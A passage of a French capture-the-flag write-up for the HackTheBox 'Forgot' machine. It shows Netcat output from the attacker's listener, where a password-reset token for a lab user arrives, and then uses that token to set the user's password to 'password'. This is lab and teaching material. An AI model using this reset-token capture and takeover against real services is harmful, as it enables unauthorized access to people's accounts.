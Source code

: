 
- On regarde la sortie Netcat :

	```bash
	Ncat: Connection from 10.129.228.104.
	Ncat: Connection from 10.129.228.104:40806.
	GET /reset?token=GgUm6x3aUI%2BEdONpBIv8cpysJUeY70bbJVfFAfHYIP04XDpSiu0CEMQ9GQnE2oMCT%2BMD8D5%2FAZr5H%2BNjvIYrEQ%3D%3D HTTP/1.1
	Host: 10.10.14.41:4444
	User-Agent: python-requests/2.22.0
	Accept-Encoding: gzip, deflate
	Accept: */*
	Connection: keep-alive

	```

Nous venons de trouver le lien pour changer le mot de passe du l'utilisateur 'robert-dev-14320'.


> forgot.htb/reset?token=GgUm6x3aUI%2BEdONpBIv8cpysJUeY70bbJVfFAfHYIP04XDpSiu0CEMQ9GQnE2oMCT%2BMD8D5%2FAZr5H%2BNjvIYrEQ%3D%3D

Changeons le mot de passe en 'password' :



![HTTP_newPassword.png](https://github.com/RawMain121/writeups/blob/main/HackTheBox/Forgot/_resources/HTTP_newPassword.png)
